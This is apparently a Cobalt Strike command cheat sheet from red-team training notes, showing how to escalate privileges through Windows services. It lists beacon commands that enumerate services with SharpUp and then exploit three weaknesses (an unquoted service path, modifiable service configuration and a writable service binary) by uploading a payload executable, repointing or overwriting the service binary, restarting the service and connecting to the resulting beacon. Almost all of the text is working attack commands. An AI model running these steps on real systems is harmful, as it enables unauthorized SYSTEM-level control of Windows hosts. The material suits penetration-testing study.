 # Query and Manage all the installed services
beacon> powershell Get-Service | fl
beacon> run wmic service get name, pathname
beacon> run sc query
beacon> run sc qc VulnService2
beacon> run sc stop VulnService1
beacon> run sc start VulnService1

# Use SharpUp to find exploitable services
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit 

# CASE 1: Unquoted Service Path (Hijack the service binary search logic to execute our payload)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
beacon> cd C:\Program Files\Vulnerable Services
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> run sc stop VulnService1
beacon> run sc start VulnService1
beacon> connect localhost 4444

# CASE 2: Weak Service Permission (Possible to modify service configuration)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
beacon> run sc qc VulnService2
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
beacon> run sc qc VulnService2
beacon> run sc stop VulnService2
beacon> run sc start VulnService2
beacon> connect localhost 4444

# CASE 3: Weak Service Binary Permission (Overwite the service binary due to weak permission)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
PS C:\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
beacon> run sc stop VulnService3
beacon> cd "C:\Program Files\Vulnerable Services"
beacon> upload C:\Payloads\Service3.exe
beacon> run sc start VulnService3
beacon> connect localhost 4444
